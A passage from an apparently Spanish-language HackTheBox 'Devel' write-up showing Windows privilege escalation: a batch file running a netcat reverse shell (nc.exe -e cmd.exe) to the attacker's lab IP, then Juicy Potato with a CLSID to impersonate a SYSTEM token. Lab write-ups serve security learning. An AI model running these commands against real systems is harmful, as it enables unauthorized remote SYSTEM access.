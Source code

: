 
en nuestra maquina crearemos un shell.bat que contenga este comando

*shell.bat*

```bash
C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.29 4444
```

![Untitled](/assets/images/2022-02-09-writeup-maquina-htb-devel/Untitled%205.png)

para poder ejecutar juicy potato, nesecitaremos un CLSID para poder suplatantar el token de un servicio que tenga permisos de NT AUTHORITY\SYSTEM

![Untitled](/assets/images/2022-02-09-writeup-maquina-htb-devel/Untitled%206.png)

![Untitled](/assets/images/2022-02-09-writeup-maquina-htb-devel/Untitled%207.png)

por lo tanto haremos dejaremos un puerto abierto en escucha con netcat en nuestra maquina y en la maquina victima ejecutaremos dicho comando

```bash
jp.exe -p C:\Windows\Temp\shell.bat -l 1337 -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```

![Untitled](/assets/images/2022-02-09-writeup-maquina-htb-devel/Untitled%208.png)
